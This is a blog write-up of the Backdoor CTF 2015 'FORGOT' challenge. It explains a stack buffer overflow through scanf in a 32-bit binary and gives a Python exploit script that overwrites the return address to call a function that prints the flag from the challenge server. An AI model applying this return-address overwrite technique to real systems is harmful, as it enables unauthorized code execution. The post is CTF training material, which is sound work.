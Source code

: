 ```yaml
---
layout: post
title: "Backdoor CTF 2015 - FORGOT Writeup"
date: 2015-04-03 02:57:55 +0430
comments: false
categories: ctf backdoor exploit bof
---
```


**Backdoor 2015 FORGOT Writeup**  
**Point = 200**  
**Category = Exploit**  

> Fawkes has been playing around with Finite State Automaton lately. While exploring the concept of implementing regular expressions using FSA he thought of implementing an email-address validator.  
> Recently, Lua started to annoy Fawkes. To this, Fawkes, challenged Lua to a battle of wits. Fawkes promised to reward Lua, only if she manages to transition to a non-reachable state in the FSA he implemented. The replication can be accessed here.

```
$ file forgot
forgot: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=35930a2d9b048236694e9611073b759e1c88b8c4, stripped
```

```
$ ./forgot 
What is your name?
> AAAAAAAAA

Hi AAAAAAAAA


                        Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
> AAAAAAAAAAAAAAAAAA
Dude, you seriously think this is going to work. Where are the fancy @ and [dot], huh?
```

without loosing time opening the binary into IDA shows us several functions but the General function to this functionality is `0x08047AA`. lets see the psuedo-code :
<!--more-->
```
...
  puts("What is your name?");
  printf("> ");
  fflush(stdout);
  fgets((char *)&v19, 32, stdin);
  sub_80485DD(&v19);
  fflush(stdout);
  printf("I should give you a pointer perhaps. Here: %x\n\n", sub_8048654);
  fflush(stdout);
  puts("Enter the string to be validate");
  printf("> ");
  fflush(stdout);
  __isoc99_scanf("%s", &v8);
  for ( i = 0; ; ++i )
 ...
```
This is the interesting part since we have control on inputs. `v19` is a 32 char buffer so no vulnerabilty is there. but what about `__isoc99_scanf("%s", &v8);` ? obviously using *scanf* in such a manner is exteremly dangerous. `v8` also is a 32 char buffer. so it is also another stack buffer overflow like `ECHO`. lets check this condition : 

```
$ python -c 'print "GeeksSpeak\n"+"A"*40+"\n"' > forgot.test
hamidx9@KernelsCallMe:~/ctf/backdoor/public/FORGOT$ cat forgot.test 
GeeksSpeak
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

hamidx9@KernelsCallMe:~/ctf/backdoor/public/FORGOT$ ./forgot < forgot.test 
What is your name?
> 
Hi GeeksSpeak


                        Finite-State Automaton

I have implemented a robust FSA to validate email addresses
Throw a string at me and I will let you know if it is a valid email address

                                Cheers!

I should give you a pointer perhaps. Here: 8048654

Enter the string to be validate
Segmentation fault (core dumped)

```

and `gdb` proves this too. but how should i read the flag? do we need ROP? or something simillar? i started dumping strings in IDA and located these: 

```
.rodata:08048D9F 00000007 C ./flag
.rodata:08048DA6 00000007 C cat %s
```

these strings had been used in `0x080486CC` and finding a call system proves that like ECHO we should just using this function as RET.

by using this piece of code we have: 

```python
#!/usr/bin/python
import struct
import socket
import telnetlib

def readuntil(f, delim='> '):
    data = ''
    while not data.endswith(delim):
        c = f.read(1)
        assert len(c) > 0
        data += c
    return data

def p(v):
    return struct.pack('<I', v)

def u(v):
    return struct.unpack('<I', v)[0]


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('hack.bckdr.in', 8009))
f = s.makefile('rw', bufsize=0)

readuntil(f)
f.write("A\n")
readuntil(f)
f.write("A"*32+p(0x80486CC)+"\n")

t = telnetlib.Telnet()
t.sock = s
t.interact()
```

```
$ python sol.py 
[redacted]
*** Connection closed by remote host ***
```

We've got the flag. 200pts.

HAMIDx9
